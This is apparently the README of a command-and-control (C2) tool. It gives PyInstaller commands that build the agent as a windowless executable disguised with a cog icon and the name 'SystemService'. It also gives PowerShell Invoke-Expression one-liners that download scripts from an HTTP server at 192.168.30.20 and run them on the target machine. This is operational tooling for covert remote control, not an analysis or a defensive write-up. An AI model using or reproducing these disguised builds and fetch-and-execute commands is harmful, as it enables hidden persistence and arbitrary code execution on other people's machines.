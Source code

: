 # C2
You should include 3 JSON files in /server directory: agents.json, commands_output.json, commands.json

## Agent
### Install EXE
```bash
pyinstaller --onefile --noconsole --icon=cog.ico app.py
```

### Install EXE (SystemService name)
```bash
pyinstaller --onefile --noconsole --icon=cog.ico --name=SystemService app.py
```

## Custom powershell script usage:

To run custom powershell scripts on target machine (Agent), you can execute this command:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://192.168.30.20:5000/static/uploads/script.ps1").Content) )
```

Change wallpaper to cat image:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://192.168.30.20:5000/static/uploads/wallpaper.ps1").Content) )
```